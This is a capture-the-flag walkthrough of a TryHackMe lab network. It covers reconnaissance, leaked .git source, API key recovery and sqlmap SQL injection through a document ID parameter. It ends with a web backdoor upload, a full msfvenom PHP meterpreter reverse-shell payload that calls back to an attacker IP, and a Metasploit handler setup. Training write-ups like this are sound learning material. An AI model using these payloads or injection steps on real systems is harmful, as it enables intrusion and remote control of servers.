

# Borderlands

Compromise a perimeter host and pivot through this network.

- [Borderlands](https://tryhackme.com/room/borderlands)

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Deploy, attack and pivot through this network


This challenge was created by [Context Information Security](https://contextis.com/) for TryHackMe [HackBack2](https://tryhackme.com/hackback2), a cyber security consultancy that employs some of the best in the industry.


Deploy the network and answer the questions below.

Some questions will show [X] next to them. This means the question is worth X extra points.

- [What Is BGP? | BGP Routing Explained](https://www.cloudflare.com/learning/security/glossary/what-is-bgp/)
- [Metasploit - Pivoting](https://www.tutorialspoint.com/metasploit/metasploit_pivoting.htm)

```
kali@kali:~/CTFs/tryhackme/Borderlands$ sudo nmap -p- -A -sS -sC -sV -O --script vuln 10.10.65.7
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-10 14:08 CEST
Pre-scan script results:
| broadcast-avahi-dos:
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.65.7
Host is up (0.033s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| vulners:
|   cpe:/a:openbsd:openssh:7.2p2:
|       CVE-2008-3844   9.3     https://vulners.com/cve/CVE-2008-3844
|       CVE-2016-8858   7.8     https://vulners.com/cve/CVE-2016-8858
|       CVE-2016-6515   7.8     https://vulners.com/cve/CVE-2016-6515
|       CVE-2016-10009  7.5     https://vulners.com/cve/CVE-2016-10009
|       CVE-2016-10012  7.2     https://vulners.com/cve/CVE-2016-10012
|       CVE-2015-8325   7.2     https://vulners.com/cve/CVE-2015-8325
|       CVE-2016-10010  6.9     https://vulners.com/cve/CVE-2016-10010
|       CVE-2019-6111   5.8     https://vulners.com/cve/CVE-2019-6111
|       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
|       CVE-2018-15473  5.0     https://vulners.com/cve/CVE-2018-15473
|       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
|       CVE-2016-10708  5.0     https://vulners.com/cve/CVE-2016-10708
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2016-6210   4.3     https://vulners.com/cve/CVE-2016-6210
|       CVE-2007-2768   4.3     https://vulners.com/cve/CVE-2007-2768
|       CVE-2019-6110   4.0     https://vulners.com/cve/CVE-2019-6110
|       CVE-2019-6109   4.0     https://vulners.com/cve/CVE-2019-6109
|       CVE-2014-9278   4.0     https://vulners.com/cve/CVE-2014-9278
|       CVE-2018-20685  2.6     https://vulners.com/cve/CVE-2018-20685
|_      CVE-2016-10011  2.1     https://vulners.com/cve/CVE-2016-10011
80/tcp   open   http       nginx 1.14.0 (Ubuntu)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum:
|   /info.php: Possible information file
|_  /.git/HEAD: Git folder
| http-git:
|   10.10.65.7:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added mobile apk for beta testing.
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
8080/tcp closed http-proxy
Device type: general purpose|specialized|storage-misc|printer|WAP
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X|2.4.X (90%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4 cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:2.4
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 or 4.2 (90%), Linux 3.2 - 3.5 (90%), Linux 3.2 - 3.8 (90%), Linux 4.2 (90%), Linux 4.4 (90%), Crestron XPanel control system (89%), Linux 3.13 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   33.07 ms 10.8.0.1
2   33.40 ms 10.10.65.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 270.02 seconds
```

[Hidden directories and files as a source of sensitive information about web application](https://github.com/bl4de/research/tree/master/hidden_directories_leaks#hidden-directories-and-files-as-a-source-of-sensitive-information-about-web-application)

```
kali@kali:~/CTFs/tryhackme/Borderlands/git$ sudo python /opt/GitHack/GitHack.py http://10.10.65.7:80/.git/
[+] Download and parse index file ...
CTX_WSUSpect_White_Paper.pdf
Context_Red_Teaming_Guide.pdf
Context_White_Paper_Pen_Test_101.pdf
Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
Glibc_Adventures-The_Forgotten_Chunks.pdf
api.php
functions.php
home.php
index.php
info.php
[OK] api.php
[OK] info.php
[OK] index.php
[OK] home.php
[OK] functions.php
[OK] Context_White_Paper_Pen_Test_101.pdf
[OK] CTX_WSUSpect_White_Paper.pdf
[OK] Context_Red_Teaming_Guide.pdf
[OK] Glibc_Adventures-The_Forgotten_Chunks.pdf
[OK] Demystifying_the_Exploit_Kit_-_Context_White_Paper.pdf
```

```
kali@kali:~/CTFs/tryhackme/Borderlands/git$ curl http://10.10.65.7/.git/logs/HEAD > HEAD
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1332  100  1332    0     0  21142      0 --:--:-- --:--:-- --:--:-- 21142
kali@kali:~/CTFs/tryhackme/Borderlands/git$ cat HEAD
0000000000000000000000000000000000000000 152b2d9976cd37a68fd462af8e4ce21356b5485e Context Information Security <recruitment@contextis.com> 1568122271 +0100     commit (initial): created repo
152b2d9976cd37a68fd462af8e4ce21356b5485e 93bab0a450caaa8c4d2632703636eccc69062bb4 Context Information Security <recruitment@contextis.com> 1568122438 +0100     commit: added under construction page
93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100     commit: added basic prototype of api gateway
79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100     commit: removed sensitive data
b2f776a52fe81a731c6c0fa896e7f9548aafceab 04f1f411857cc972ae8ed5efcffa298f5f6168fb Context Information Security <recruitment@contextis.com> 1568122932 +0100     commit: added theme
04f1f411857cc972ae8ed5efcffa298f5f6168fb fee5595bb2ba1d1ab005ec3de98367fe5d021e9f Context Information Security <recruitment@contextis.com> 1568123006 +0100     commit: added white paper pdf's
fee5595bb2ba1d1ab005ec3de98367fe5d021e9f 6db3cf70b469de942f2f529166088cdfbbd5f764 Context Information Security <recruitment@contextis.com> 1568123071 +0100     commit: added mobile apk for beta testing.
```

`79c9539b6566b06d6dec2755fdf58f5f9ec8822f b2f776a52fe81a731c6c0fa896e7f9548aafceab Context Information Security <recruitment@contextis.com> 1568122860 +0100 commit: removed sensitive data`

`93bab0a450caaa8c4d2632703636eccc69062bb4 79c9539b6566b06d6dec2755fdf58f5f9ec8822f Context Information Security <recruitment@contextis.com> 1568122828 +0100 commit: added basic prototype of api gateway`

1. What is the API key that fits the following pattern: "AND\*"



```
kali@kali:~/CTFs/tryhackme/Borderlands$ apktool d mobile-app-prototype.apk
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
I: Using Apktool 2.4.1-dirty on mobile-app-prototype.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: /home/kali/.local/share/apktool/framework/1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Baksmaling classes.dex...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
kali@kali:~/CTFs/tryhackme/Borderlands$ cd mobile-app-prototype/
kali@kali:~/CTFs/tryhackme/Borderlands/mobile-app-prototype$ grep -rn 'encrypted_api_key'
smali/com/example/ctf1/R$string.smali:98:.field public static final encrypted_api_key:I = 0x7f0b0028
res/values/public.xml:892:    <public type="string" name="encrypted_api_key" id="0x7f0b0028" />
res/values/strings.xml:43:    <string name="encrypted_api_key">CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo</string>
kali@kali:~/CTFs/tryhackme/Borderlands/mobile-app-prototype$
```

```
CBQOSTEFZNL5U8LJB2hhBTDvQi2zQo

ANDVOWLDLAS5Q8OQZ2tu

ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk
```

[https://www.dcode.fr/vigenere-cipher](https://www.dcode.fr/vigenere-cipher)

`ANDVOWLDLAS5Q8OQZ2tuIPGcOu2mXk`

2. What is the API key that fits the following pattern: "WEB\*"

```
kali@kali:~/CTFs/tryhackme/Borderlands/git$ cat 10.10.65.7_80/home.php
```

```php
<?php

session_start();
require_once("functions.php");

$conn = setup_db_connection();

if (!isset($_SESSION['loggedin']) || $_SESSION['loggedin'] !== true)
{
    header("Location: index.php");
    die();
}

echo ("<p>Click on a link below to view the document properties</p>");


$stmt = $conn -> prepare('SELECT documentid, documentname, location FROM documents');

$stmt -> execute();
$stmt -> store_result();
$stmt -> bind_result($documentid, $document_name, $location);

$resultsArray = [];
echo ("<ul>");
while ($stmt -> fetch()) {
    echo ('<li><a href="api.php?documentid='.$documentid.'&amp;apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD">'.$document_name.'</a></li>');
    $resultsArray[] = array("documentid" => $documentid, "documentname" => $document_name, "location" => $location);
}
echo ("</ul>");

/*
if (isset($_GET['documentid']) && is_numeric($_GET['documentid']))
{
    foreach ($resultsArray as $result)
    {
        if ($result["documentid"] == $_GET['documentid'])
        {
            echo "<p>Enter the new name for the document: ".$result['documentname']."</p>";
            echo ('<form method="GET" action="api.php">');
            echo ('<input type="hidden" id="documentid" name="documentid" value="'.$_GET['documentid'].'" />');
            echo ('<input type="hidden" id="apikey" name="apikey" value="WEBLhvOJAH8d50Z4y5G5g4McG1GMGD" />');
            echo ('<input type="text" id="newname" name="newname" />');
            echo ('<input type="submit" />');
        }
    }
}
*/

?>
```

`WEBLhvOJAH8d50Z4y5G5g4McG1GMGD`

3. What is the API key that fits the following pattern: "GIT\*"

```
kali@kali:~/CTFs/tryhackme/Borderlands/git/.git$ git cat-file -p 79c9539b6566b06d6dec2755fdf58f5f9ec8822f
tree 51d63292792fb7f97728cd3dcaac3ef364f374ba
parent 93bab0a450caaa8c4d2632703636eccc69062bb4
author Context Information Security <recruitment@contextis.com> 1568122828 +0100
committer Context Information Security <recruitment@contextis.com> 1568122828 +0100

added basic prototype of api gateway
kali@kali:~/CTFs/tryhackme/Borderlands/git/.git$ git cat-file -p 51d63292792fb7f97728cd3dcaac3ef364f374ba
100644 blob 2229eb414d7945688b90d7cd0a786fd888bcc6a4    api.php
100644 blob 9eb9f94f73113d785e65c7e3ec0cba54e0b7cf43    functions.php
100644 blob 2a116a56a6e31ef1836796936dbc05af1f986a26    home.php
100755 blob 470cac65fcd0f8556f13997957a331628482aa96    index.html
100644 blob 4f4ced90fcad774ca4f9f966dbb227ebe7f77a83    index.php
100644 blob 6480abf34a54d3055b437766be872a13bcebdf7d    info.php
kali@kali:~/CTFs/tryhackme/Borderlands/git/.git$ git cat-file -p 2229eb414d7945688b90d7cd0a786fd888bcc6a4
<?php

require_once("functions.php");

if (!isset($_GET['apikey']) || ((substr($_GET['apikey'], 0, 20) !== "WEBLhvOJAH8d50Z4y5G5") && substr($_GET['apikey'], 0, 20) !== "ANDVOWLDLAS5Q8OQZ2tu" && substr($_GET['apikey'], 0, 20) !== "GITtFi80llzs4TxqMWtCotiTZpf0HC"))
{
    die("Invalid API key");
}

if (!isset($_GET['documentid']))
{
    die("Invalid document ID");
}

/*
if (!isset($_GET['newname']) || $_GET['newname'] == "")
{
    die("invalid document name");
}
*/

$conn = setup_db_connection();

//UpdateDocumentName($conn, $_GET['documentid'], $_GET['newname']);

$docDetails = GetDocumentDetails($conn, $_GET['documentid']);
if ($docDetails !== null)
{
    //print_r($docDetails);
    echo ("Document ID: ".$docDetails['documentid']."<br />");
    echo ("Document Name: ".$docDetails['documentname']."<br />");
    echo ("Document Location: ".$docDetails['location']."<br />");
}

?>
```

`GITtFi80llzs4TxqMWtCotiTZpf0HC`

4. What is the flag in the /var/www directory of the web app host? {FLAG:Webapp:XXX}

[https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/](https://www.hackingarticles.in/shell-uploading-in-web-server-using-sqlmap/)

```
kali@kali:~/CTFs/tryhackme/Borderlands$ sqlmap -r r.txt --dbs --batch
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.9#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:23:55 /2020-10-10/

[15:23:55] [INFO] parsing HTTP request from 'r.txt'
[15:23:55] [INFO] testing connection to the target URL
[15:23:55] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:23:55] [INFO] testing if the target URL content is stable
[15:23:55] [INFO] target URL content is stable
[15:23:55] [INFO] testing if GET parameter 'documentid' is dynamic
[15:23:56] [INFO] GET parameter 'documentid' appears to be dynamic
[15:23:56] [INFO] heuristic (basic) test shows that GET parameter 'documentid' might be injectable (possible DBMS: 'MySQL')
[15:23:56] [INFO] heuristic (XSS) test shows that GET parameter 'documentid' might be vulnerable to cross-site scripting (XSS) attacks
[15:23:56] [INFO] testing for SQL injection on GET parameter 'documentid'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[15:23:56] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:23:56] [WARNING] reflective value(s) found and filtering out
[15:23:56] [INFO] GET parameter 'documentid' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="Document")
[15:23:56] [INFO] testing 'Generic inline queries'
[15:23:56] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[15:23:56] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[15:23:56] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[15:23:57] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[15:23:57] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[15:23:57] [INFO] GET parameter 'documentid' is 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)' injectable
[15:23:57] [INFO] testing 'MySQL inline queries'
[15:23:57] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[15:23:57] [WARNING] time-based comparison requires larger statistical model, please wait............... (done)
[15:23:58] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[15:23:58] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[15:23:58] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[15:23:58] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[15:23:58] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[15:23:58] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[15:24:08] [INFO] GET parameter 'documentid' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[15:24:08] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[15:24:08] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[15:24:08] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[15:24:08] [INFO] target URL appears to have 3 columns in query
[15:24:09] [INFO] GET parameter 'documentid' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'documentid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 50 HTTP(s) requests:
---
Parameter: documentid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: documentid=1 AND 9778=9778&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: documentid=1 AND GTID_SUBSET(CONCAT(0x716b6b7671,(SELECT (ELT(4499=4499,1))),0x71717a7a71),4499)&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: documentid=1 AND (SELECT 9277 FROM (SELECT(SLEEP(5)))QLXf)&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: documentid=-5651 UNION ALL SELECT CONCAT(0x716b6b7671,0x63735677525547714769417a62527142524655747a414b6f564e4e41615866745165665767505a77,0x71717a7a71),NULL,NULL-- -&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD
---
[15:24:09] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[15:24:09] [INFO] fetching database names
[15:24:09] [INFO] retrieved: 'information_schema'
[15:24:09] [INFO] retrieved: 'myfirstwebsite'
[15:24:09] [INFO] retrieved: 'mysql'
[15:24:09] [INFO] retrieved: 'performance_schema'
[15:24:09] [INFO] retrieved: 'sys'
available databases [5]:
[*] information_schema
[*] myfirstwebsite
[*] mysql
[*] performance_schema
[*] sys

[15:24:09] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.130.73'

[*] ending @ 15:24:09 /2020-10-10/

kali@kali:~/CTFs/tryhackme/Borderlands$ sqlmap -r r.txt -D myfirstwebsite --os-shell
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:24:22 /2020-10-10/

[15:24:22] [INFO] parsing HTTP request from 'r.txt'
[15:24:22] [INFO] resuming back-end DBMS 'mysql'
[15:24:22] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: documentid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: documentid=1 AND 9778=9778&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: documentid=1 AND GTID_SUBSET(CONCAT(0x716b6b7671,(SELECT (ELT(4499=4499,1))),0x71717a7a71),4499)&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: documentid=1 AND (SELECT 9277 FROM (SELECT(SLEEP(5)))QLXf)&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: documentid=-5651 UNION ALL SELECT CONCAT(0x716b6b7671,0x63735677525547714769417a62527142524655747a414b6f564e4e41615866745165665767505a77,0x71717a7a71),NULL,NULL-- -&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD
---
[15:24:22] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.6
[15:24:22] [INFO] going to use a web backdoor for command prompt
[15:24:22] [INFO] fingerprinting the back-end DBMS operating system
[15:24:23] [INFO] the back-end DBMS operating system is Linux
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
do you want sqlmap to further try to provoke the full path disclosure? [Y/n] n
[15:24:30] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 4
[15:24:32] [INFO] using generated directory list: /var/www,/var/www/html,/var/www/htdocs,/var/www/httpdocs,/var/www/php,/var/www/public,/var/www/src,/var/www/site,/var/www/build,/var/www/web,/var/www/data,/var/www/sites/all,/var/www/www/build,/usr/local/apache,/usr/local/apache/html,/usr/local/apache/htdocs,/usr/local/apache/httpdocs,/usr/local/apache/php,/usr/local/apache/public,/usr/local/apache/src,/usr/local/apache/site,/usr/local/apache/build,/usr/local/apache/web,/usr/local/apache/www,/usr/local/apache/data,/usr/local/apache/sites/all,/usr/local/apache/www/build,/usr/local/apache2,/usr/local/apache2/html,/usr/local/apache2/htdocs,/usr/local/apache2/httpdocs,/usr/local/apache2/php,/usr/local/apache2/public,/usr/local/apache2/src,/usr/local/apache2/site,/usr/local/apache2/build,/usr/local/apache2/web,/usr/local/apache2/www,/usr/local/apache2/data,/usr/local/apache2/sites/all,/usr/local/apache2/www/build,/usr/local/www/apache22,/usr/local/www/apache22/html,/usr/local/www/apache22/htdocs,/usr/local/www/apache22/httpdocs,/usr/local/www/apache22/php,/usr/local/www/apache22/public,/usr/local/www/apache22/src,/usr/local/www/apache22/site,/usr/local/www/apache22/build,/usr/local/www/apache22/web,/usr/local/www/apache22/www,/usr/local/www/apache22/data,/usr/local/www/apache22/sites/all,/usr/local/www/apache22/www/build,/usr/local/www/apache24,/usr/local/www/apache24/html,/usr/local/www/apache24/htdocs,/usr/local/www/apache24/httpdocs,/usr/local/www/apache24/php,/usr/local/www/apache24/public,/usr/local/www/apache24/src,/usr/local/www/apache24/site,/usr/local/www/apache24/build,/usr/local/www/apache24/web,/usr/local/www/apache24/www,/usr/local/www/apache24/data,/usr/local/www/apache24/sites/all,/usr/local/www/apache24/www/build,/usr/local/httpd,/usr/local/httpd/html,/usr/local/httpd/htdocs,/usr/local/httpd/httpdocs,/usr/local/httpd/php,/usr/local/httpd/public,/usr/local/httpd/src,/usr/local/httpd/site,/usr/local/httpd/build,/usr/local/httpd/web,/usr/local/httpd/www,/usr/local/httpd/data,/usr/local/httpd/sites/all,/usr/local/httpd/www/build,/var/www/nginx-default,/var/www/nginx-default/html,/var/www/nginx-default/htdocs,/var/www/nginx-default/httpdocs,/var/www/nginx-default/php,/var/www/nginx-default/public,/var/www/nginx-default/src,/var/www/nginx-default/site,/var/www/nginx-default/build,/var/www/nginx-default/web,/var/www/nginx-default/www,/var/www/nginx-default/data,/var/www/nginx-default/sites/all,/var/www/nginx-default/www/build,/srv/www,/srv/www/html,/srv/www/htdocs,/srv/www/httpdocs,/srv/www/php,/srv/www/public,/srv/www/src,/srv/www/site,/srv/www/build,/srv/www/web,/srv/www/data,/srv/www/sites/all,/srv/www/www/build
use any additional custom directories [Enter for None]: /var/www/html
[15:24:46] [WARNING] unable to automatically parse any web server path
[15:24:46] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[15:24:46] [WARNING] potential permission problems detected ('Permission denied')
[15:24:47] [WARNING] unable to upload the file stager on '/var/www/'
[15:24:47] [INFO] trying to upload the file stager on '/var/www/' via UNION method
[15:24:47] [WARNING] expect junk characters inside the file as a leftover from UNION query
[15:24:47] [WARNING] it looks like the file has not been written (usually occurs if the DBMS process user has no write privileges in the destination path)
[15:24:47] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[15:24:47] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://10.10.130.73:80/tmpupkap.php
[15:24:47] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://10.10.130.73:80/tmpbsjex.php
[15:24:47] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell>
```

```
kali@kali:~/CTFs/tryhackme/Borderlands$ msfvenom -p php/meterpreter/reverse_tcp lhost=10.8.106.222 lport=4445 -f raw
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1113 bytes
/*<?php /**/ error_reporting(0); $ip = '10.8.106.222'; $port = 4445; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
kali@kali:~/CTFs/tryhackme/Borderlands

kali@kali:~/CTFs/tryhackme/Borderlands$ msfconsole
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp


      .:okOOOkdc'           'cdkOOOko:.
    .xOOOOOOOOOOOOc       cOOOOOOOOOOOOx.
   :OOOOOOOOOOOOOOOk,   ,kOOOOOOOOOOOOOOO:
  'OOOOOOOOOkkkkOOOOO: :OOOOOOOOOOOOOOOOOO'
  oOOOOOOOO.    .oOOOOoOOOOl.    ,OOOOOOOOo
  dOOOOOOOO.      .cOOOOOc.      ,OOOOOOOOx
  lOOOOOOOO.         ;d;         ,OOOOOOOOl
  .OOOOOOOO.   .;           ;    ,OOOOOOOO.
   cOOOOOOO.   .OOc.     'oOO.   ,OOOOOOOc
    oOOOOOO.   .OOOO.   :OOOO.   ,OOOOOOo
     lOOOOO.   .OOOO.   :OOOO.   ,OOOOOl
      ;OOOO'   .OOOO.   :OOOO.   ;OOOO;
       .dOOo   .OOOOocccxOOOO.   xOOd.
         ,kOl  .OOOOOOOOOOOOO. .dOk,
           :kk;.OOOOOOOOOOOOO.cOk:
             ;kOOOOOOOOOOOOOOOk:
               ,xOOOOOOOOOOOx,
                 .lOOOOOOOl.
                    ,dOd,
                      .

       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Use the resource command to run commands from a file

msf5 exploit(windows/smb/ms17_010_eternalblue) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set lport 4445
lport => 4445
msf5 exploit(multi/handler) > set lhost 10.8.106.222
lhost => 10.8.106.222
